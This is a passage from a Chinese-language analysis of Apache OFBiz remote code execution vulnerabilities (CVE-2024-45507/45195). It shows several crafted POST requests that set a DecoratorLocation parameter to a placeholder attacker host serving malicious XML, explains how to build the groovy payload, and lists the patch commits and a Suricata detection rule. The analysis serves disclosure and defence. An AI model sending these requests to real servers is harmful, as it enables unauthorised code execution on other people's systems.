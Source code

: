 据如上结论，我们可以构造的请求大致如下：  
```
POST /webtools/control/main/findTemporalExpression HTTP/1.1Host: xx:8443Content-Type: application/x-www-form-urlencodedtempExprDecoratorLocation=http://yourip/xx.xml
```  
  
但根据配置文件，理论上在framework/webtools/widget目录下，包含location="${parameters.  
字符且不为${parameters.mainDecoratorLocation}  
（因为mainDecoratorLocation由系统传递，会覆盖用户传递）的配置文件都满足漏洞条件，例如：TempExprScreens.xml、StatsScreens.xml（本文使用18.12.12版本进行复现，版本不同可能不太一样）。  
  
并且结合上文提到的保证图 5中的eventReturn为true即可，所以符合条件的请求不止一个：  
```
POST /webtools/control/main/ViewMetrics HTTP/1.1Host: xx:8443Content-Type: application/x-www-form-urlencodedstatsDecoratorLocation=http://yourip/xx.xml
```  
```
POST /webtools/control/forgotPassword/findTemporalExpression HTTP/1.1Host: xx:8443Content-Type: application/x-www-form-urlencodedtempExprDecoratorLocation=http://yourip/xx.xml
```  
  
更多就不再一一举例。  
  
**4 xml内容的构造**  
  
  
参考资料  
  
由于指定的url会继续被当作modelScreen进行解析，所以参照代码中的写法即可构造PoC，在代码中搜索"${groovy:  
相关代码，照着写即可，如图12所示。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/3k9IT3oQhT2sqVroHTKKD6wYxDgBIPMltNWLtJQtC92VDY0Y84jukDP6WAuiaq9wfgMW2p6RhI29nF1iaibwDhuiaA/640?wx_fmt=png&from=appmsg "")  
  
图12 CommonScreens.xml  
  
**5 补丁修复**  
  
  
参考资料  
5.补丁修复  
  
1、https://github.com/apache/ofbiz-framework/commit/28f5f87ec9，对location进行校验，如图13所示。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/3k9IT3oQhT2sqVroHTKKD6wYxDgBIPMls17h3AKQe6Et0p2CGibzmOIpic4m2KAlNjqfXTgibPc365A3KxZcBU45g/640?wx_fmt=png&from=appmsg "")  
  
图13 补丁对比  
  
2、  
https://github.com/apache/ofbiz-framework/commit/9fe40f8cba8399afdfa41e8c9fd0ec61a569f2b5  
，对多个路由、方法进行加固鉴权，内容太多就不贴图了。  
  
**5.1 suricata防护规则**  
  
可使用如下Suricata IDS防护规则进行告警并进行相应处理：  
  
alert http any any -> any any (msg:"Apache OFBiz未授权代码执行(CVE-2024-45507&CVE-2024-45195)";flow:established,to_server; content:"POST";http_method;http.request_body; pcre:"/(?:\b\w*DecoratorLocation\s*|DATAFILE_LOCATION|DEFINITION_IS_URL|DEFINITION_NAME)=\s*[^ ]*:\/\/[^ ]*/i""; classtype:web-application-attack;sid:2024090502;rev:1;)  
  